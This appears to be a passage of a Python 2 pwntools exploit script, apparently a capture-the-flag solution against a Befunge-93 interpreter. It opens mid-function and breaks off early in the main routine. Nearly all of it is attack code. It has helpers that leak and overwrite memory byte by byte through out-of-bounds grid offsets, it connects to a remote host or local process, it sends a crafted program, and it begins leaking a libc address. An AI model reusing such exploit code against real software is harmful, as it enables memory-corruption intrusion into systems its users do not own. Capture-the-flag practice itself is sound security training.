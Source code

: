 ```python exp_bef.py  
    off_1 = offset%80

    return off_1, off_80

def leak_far_addr(addr, text_base, name):
    ret_addr = 0
    cnt = 0
    off_1, off_80 = cal_offset(addr, text_base)
    temp = int(math.sqrt(off_80))
    off_1 = (off_80 - temp**2)*80 + off_1

    for i in xrange(off_1, off_1+6):
        print "leaking %s byte : %d" % (name, cnt+1)
        r.sendline(str(i))
        r.sendline(str(temp))
        r.sendline(str(temp))
        ret = int(r.recvuntil(" "))
        ret_addr = ret_addr | ((ret&0xff) << 8*cnt)
        cnt += 1

    return ret_addr

def write_far_addr(addr, text_base, name, value):
    cnt = 0
    off_1, off_80 = cal_offset(addr, text_base)
    temp = int(math.sqrt(off_80))
    off_1 = (off_80 - temp**2)*80 + off_1

    for i in xrange(off_1, off_1+6):
        v = (value>>(8*cnt)) & 0xff
        print "writing %s byte %d : %x" % (name, cnt+1, v)
        r.sendline(str(v))
        r.sendline(str(i))
        r.sendline(str(temp))
        r.sendline(str(temp))
        cnt += 1

if __name__ == "__main__":
    
    #LOCAL = True
    LOCAL = False
    
    # construct befunge-93 program
    preline = myexec("wc -l ./bbb | awk '{print $1}'")
    preline = int(preline)
    f = open("./bbb", "r")
    s = f.read()
    s += "\n"*(80-preline)
    
    r, LD = None, None
    if not LOCAL:
        r = remote(HOST, PORT)
        LD = ELF("/mnt/files/ld-linux-x86-64.so.2")
    else:
        r = process(ELF_PATH)
        LD = ELF("/lib64/ld-linux-x86-64.so.2")

    # send program
    r.sendlineafter("> ", s)
    r.recvuntil("> > > > > > > > > > > > > > > > > > > > > > > > ")

    # leak libc
    libc_main = leak_addr(-48, -2, "libc_main")
```